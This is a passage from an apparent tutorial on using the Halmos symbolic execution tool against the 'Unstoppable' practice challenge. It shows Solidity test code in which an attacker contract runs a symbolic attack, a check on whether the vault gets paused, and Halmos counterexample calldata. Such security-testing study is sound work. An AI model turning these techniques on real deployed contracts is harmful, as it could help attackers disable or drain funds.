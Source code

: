 ```javascript
token.transfer(address(attacker), INITIAL_PLAYER_TOKEN_BALANCE); // Transfer necessary resources to attacker
attacker.add_known_address(address(token));
attacker.add_known_address(address(vault));
attacker.add_known_address(address(monitorContract));
attacker.attack(); // execute symbolic attack
}
```
Now, Halmos can symbolically execute calls to different contracts:
```bash
Running 1 tests for test/unstoppable/Unstoppable_Halmos.t.sol:UnstoppableChallenge
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xdd62ed3e000000000000000000000000000000000000000000000000000400000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xdd62ed3e000000000000000000000000000000000000000080000000000000000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
...
```
We'll ignore them for now.
## _isSolved() implementation and counterexample
This function is check function, that is executing just after "check_unstoppable()". Attacker finished it's work, so it's time to check state and generate counterexample:
```javascript
function  _isSolved() private {
	vm.prank(deployer);
	monitorContract.checkFlashLoan(100e18);
	// Halmos should generate counterexample here.
	// We expect it to find such a contract and data that sets the vault paused.
	assertFalse(vault.paused(), "Vault is not paused"); 
}
```
Execute it:
```javascript
halmos --solver-timeout-assertion 0
...
Running 1 tests for test/unstoppable/Unstoppable_Halmos.t.sol:UnstoppableChallenge
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0x95d89b41000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xdd62ed3e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa0003fffffffffffffffffffefffffeffffffffe8d7e77ffcc7a964067301b6749db00000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
Counterexample: 
```